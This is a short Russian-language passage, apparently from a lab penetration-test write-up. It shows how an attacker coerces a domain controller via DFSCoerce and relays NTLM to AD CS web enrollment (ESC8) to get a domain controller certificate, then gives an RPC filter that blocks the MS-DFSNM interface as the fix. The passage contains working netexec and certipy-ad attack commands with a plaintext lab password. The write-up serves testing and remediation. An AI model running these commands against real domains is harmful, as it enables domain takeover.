 ![](/images/coerce/Pasted%20image%2020250108154026.png)

Злоумышленник может выполнить NTLM relay to AD CS HTTP endpoints (ESC8) и получить сертификат уязвимого контроллера домена meereen.

```
netexec smb 192.168.56.12 -u 'jorah.mormont' -p 'H0nnor!' -d essos.local -M dfscoerce -o LISTENER=192.168.56.200
certipy-ad relay -target 192.168.56.23 -debug -timeout 20 -template 'DomainController'
```
![](/images/coerce/Pasted%20image%2020250108155733.png)

#### Решение

Блокировка MS_DFSNM с использованием фильтров RPC

Сначала создайте файл с именем `block_dfsnm.txt`и поместите в него следующее содержимое:

```
rpc
filter
add rule layer=um actiontype=block
add condition field=if_uuid matchtype=equal data=4fc742e0-4a10-11cf-8273-00aa004ae673
add filter
quit
```
